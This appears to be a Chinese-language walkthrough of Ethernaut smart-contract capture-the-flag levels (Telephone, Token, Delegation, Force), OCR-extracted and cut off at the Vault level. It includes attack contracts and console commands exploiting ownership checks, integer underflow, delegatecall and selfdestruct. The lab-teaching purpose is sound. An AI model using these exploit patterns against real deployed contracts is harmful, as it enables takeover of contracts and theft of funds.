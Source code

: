 interface Telephone {
  function changeOwner(address _owner) external;
}

contract attack{
  address public instance;
  constructor(address _instance) public{
    instance = _instance;
  }

   function hack() public{
     Telephone(instance).changeOwner(msg.sender);
   }
}
- 传入实例地址到_instance后部署该合约
- 调用hack函数，提交该实例
- over
Token
挑战要求
- 增加token数量
漏洞
函数transfer中的
require(balances[msg.sender] - _value >= 0);
存在下溢出风险。
攻略
- 调用transfer函数:transfer(instance,tokensnumber)
注意：是输入实例的地址而不是玩家的地址。
7.Delegation
要求
- 获取该关卡的实例的所有权
漏洞
delegatecall的上下文执行环境是调用合约的环境，所以只需要在当前环境中使用delegatecall函数来调用pwn函数即可
攻略
- 控制台输入：
contract.sendTransaction({data:web3.utils.sha3("pwn()").slice(0,10)});
8.Force
挑战要求
- 给合约转账
漏洞
强制给一个合约发送eth的，不管它要不要它都得收下，这是通过selfdestruct函数来实现的。
格式：
selfdestruct(target address);
注意：使用selfdestruct的时候，指向的合约地址必须是显式的地址，而不能使用变量来代替
攻略
1. 先新建一个包含selfdestruct函数的合约A
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {

constructor() public payable{}
receive() payable external{}
function hack() public{
  selfdestruct(0x62579fF1D2CD4Fe484F57249cD2C0DE6fDcb63AF);//函数中填写你想要转账的合约实例地址
}
}
1. 往合约A里打钱
2. 调用hack()函数，从而使用selfdestruct函数，向你的实例地址转账
over
.Vault
要求
- 解开保险箱
漏洞
正经人谁把密码明文存在区块链上啊
攻略